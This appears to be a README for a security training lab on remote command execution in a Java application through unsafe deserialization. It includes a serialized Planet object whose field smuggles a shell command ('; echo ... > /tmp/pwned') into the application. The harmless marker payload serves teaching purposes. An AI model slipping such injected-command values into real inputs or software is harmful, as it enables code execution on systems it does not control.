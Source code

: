 # Lab 5. Remote command execution

Compile the code:
```
javac SerialGenerator.java
javac UploadManager.java
```

Generate some serialized data:
```
java SerialGenerator
```

In a separate window, start monitoring the application log:
```
tail -f /var/log/planets/app.log
```

Feed the data to UploadManager:
```
echo <data> | java UploadManager
```

Uncomment the following from SerialGenerator:
```
serializeAnything("Pluto",
                  new Planet(9, "; echo I am a planet! > /tmp/pwned; cat /dev/null",
                             "Muhaha!", 1337));
```

Recompile and try again. Notice the applicaiton log and check /tmp/pwned
